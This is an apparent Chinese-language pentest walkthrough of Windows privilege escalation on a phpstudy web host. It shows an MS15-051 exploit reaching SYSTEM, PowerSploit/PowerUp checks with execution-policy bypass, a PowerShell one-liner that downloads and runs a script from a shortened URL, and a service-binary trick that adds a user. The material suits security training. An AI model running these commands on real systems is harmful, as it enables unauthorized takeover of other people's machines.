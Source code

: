 以上`Appears Vulnerable` 为存在漏洞

MS14-058、MS15-051、MS16-034、MS16-135。

试了一下 `MS14-058`  蓝屏了。

使用 `MS15-051 ` 尝试，成功提权

```bash
C:\phpstudy_pro\WWW\> ms15-051x64.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 4244 created.
==============================
nt authority\system
```

**Privrsc**

https://github.com/PowerShellMafia/PowerSploit

加载脚本

```
Import-Module .\Privesc.psm1
```

获取函数

```
Get-Command -Module Privesc
```

检测全部信息

```
Invoke-AllChecks   # 我的没有

Find-AllVulns     # 检测存在的漏洞
```

命令下执行

```
powershell.exe -exec bypass -Command "&{Import-Moudle .\PowerUp.ps1;Invoke-AllChecks}"
```

远程调用执行

```
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP');Invoke-AllChecks}"
```

添加用户

```
Install-ServiceBinary -ServiceName 'Apache_pn' -UserName huanquan -Password 123456
```

eg:

```bash
PS C:\phpstudy_pro\WWW> Find-AllVulns


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
```